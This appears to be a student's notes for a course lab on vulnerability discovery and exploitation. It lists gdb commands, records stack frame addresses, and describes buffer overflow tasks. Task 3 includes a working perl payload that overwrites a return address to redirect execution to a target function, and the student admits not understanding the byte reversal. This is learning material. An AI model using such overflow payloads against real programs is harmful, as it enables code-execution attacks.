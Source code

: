 # Week 3


gdb commands:\
step\
run\
break\
x/8x $esp\
info registers\
disas main


### Task1
In this task, find the ESP, EBP and Return address in the stack frames of the following functions: main, func1, and func2 when the following code is compiled and executed.

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task1a.png">
</p>

|Main Register|Main Address|
|:-----------:|-----------:|
|esp |0xffffd020|
|ebp|0xffffd038|
|main rtn|0x56556276|

|Fun1 Registers|Fun1 Address|
|:-----------:|-----------:|
|esp|0xffffd000|
|ebp|0xffffd018|
|fun1 rtn|0x5655622b|

|Fun2 Registers|Fun2 Address|
|:------:|-----:|
|esp|0xffffcfe0|
|ebp|0xffffcfe8|
|fun2 rtn|0x565561fc|

### Task2
In this task, discover buffer overflow vulnerability and exploit the program of the following code (i.e. print out the following message in the terminal “You have correctly ...Well done!”)

<p align='center'>
<img src="https://github.com/LouisXVBTW/Vulnerability-Discovery-And-Exploitation/blob/main/images/week3task2.png">
</p>

### Task 3
In this task, discover buffer overflow vulnerability and exploit the program of the following code (e.g. executing the for loop in the vde_msg() function)


task3:
perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; print "\xc9\x61\x55\x56";' > /tmp/task3input

the ending is the return address being replaced with the address of the function we want to run

in this case the addr is 0x565561c9 but we need to reverse it and then overflow to it
idk why we need to reverse it but we do. 44 A's and the addr




### Additional Task
Download the serial.c file from moodle. Then compile it and run the program. Try various inputs and see if you can discover any vulnerability and exploit the program (i.e. print the “The serial number is valid” on the command line).